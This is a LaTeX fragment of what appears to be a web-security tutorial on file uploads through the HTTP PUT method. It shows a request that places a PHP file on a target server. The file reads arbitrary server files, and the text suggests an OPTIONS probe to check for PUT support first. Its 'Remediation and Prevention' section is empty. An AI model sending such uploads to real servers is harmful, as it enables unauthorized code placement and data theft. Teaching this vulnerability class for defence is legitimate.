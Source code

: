 \documentclass[11pt]{article}
\begin{document}
\subsection{Uploading files via PUT}

Some servers accept file creation directly through the \texttt{PUT} method, which may provide an upload path that bypasses the web UI entirely:
\begin{lstlisting}[language=http]
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
\end{lstlisting}
Send an \texttt{OPTIONS} request to an endpoint first to check whether it advertises support for \texttt{PUT}.

\section{Remediation and Prevention}
\end{document}
